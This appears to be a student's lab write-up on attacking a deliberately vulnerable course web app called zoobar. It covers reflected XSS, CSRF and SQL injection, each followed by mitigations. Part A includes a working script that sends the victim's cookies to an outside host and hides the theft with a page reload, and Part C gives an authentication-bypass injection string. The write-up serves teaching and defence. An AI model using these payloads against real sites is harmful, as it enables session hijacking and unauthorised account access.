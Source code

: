 


# Solutions
## A
### Vulnerability
There is a XSS vulnerability in `users.php`. Particularly in this part
```html
 <input type="text" name="user" value="<?php 
   echo stripslashes($_GET['user']); 
 ?>" size=10>
 ```
 The website directly plugs a user given string (`user` parameter) to the HTML.
### Explanation
My user parameter is in this format: `"><script>....</script>`. It first closes the `value` field and then insert a new `script` block, the script block contains the following code
```javascript
var i = new Image();
i.src =
  "http://zoomail.org/sendmail.php?netid=ctseng27&payload=" +
  document.cookie +
  "&r=" +
  Math.random();
i.onerror = function () {
  window.location = window.location.pathname;
};
```
which create a new image with the `sendmail` API as the source. This causes the victim's browser to send a `GET` request along with the user's cookie as a parameter to the API and finally reload the page without any parameter so the user will not notice any malicious activity.
### Mitigation
The website should sanitize user input before inserting them to the webpage, for example, replace `>` with `&gt`.
## B
### Vulnerability
The transfer form is vulnerable to cross site request forgery (CSRF). The website will transfer zoobars without checking if the user submits the request through zoobar's website.
### Explanation
In my webpage, I create a form with identical fields found in `transfer.php` and the fields is prefilled with malicious values (send 10 zoobars to the attacker). When the victim open the page, it will automatically submit the form and redirect to bing.com.
### Mitigation
The website should introduce CSRF token in the form to ensure that all transfer requests come from zoobar's own website. On top of that, the website could also check referrer header.
## C
### Vulnerability
The website does not sanitize SQL command in some important part of the code. Specifically in `_checkLogin()` in `auth.php`
```php
$quoteduser = $this->db->quote($username);
$sql = "SELECT * FROM Person WHERE " .
       "Username = '$username' AND " .
       "Password = '$hashedpassword'";
```
Instead of the sanitized `$quoteduser`, the code uses the original `$username` instead.
### Explanation
In order to bypass the auth check, I set `$username` to `someuser'--`, so the whole SQL command will be 
```sql
SELECT * FROM Person WHERE Username = 'someuser'--' AND Password = '$hashedpassword'
```
Since the password checking part is commented out, I can access whatever user's data I want. 
However, the website check if the user exists in some previous part of the code (using proper SQL sanitization) so to successfully launch this attack, the webpage I made will automatically register the malicious username and login afterwards.
### Mitigation
The website should replace `$username` to `$quoteduser` in the `_checkLogin()` like I mentioned. But this will not be enough. The following snippet came from the `_checkRemembered()` function in the same file 
```php
$sql = "SELECT * FROM Person WHERE " .
           "(Username = '$username') AND (Token = '$token')";
```
This is also vulnerable to similar attack. So, to minimize the chance of introducing SQL injection vulnerabilities, the developers should use parameterized SQL queries, e.g., the `prepare()` statement, instead of concatenating string manually.
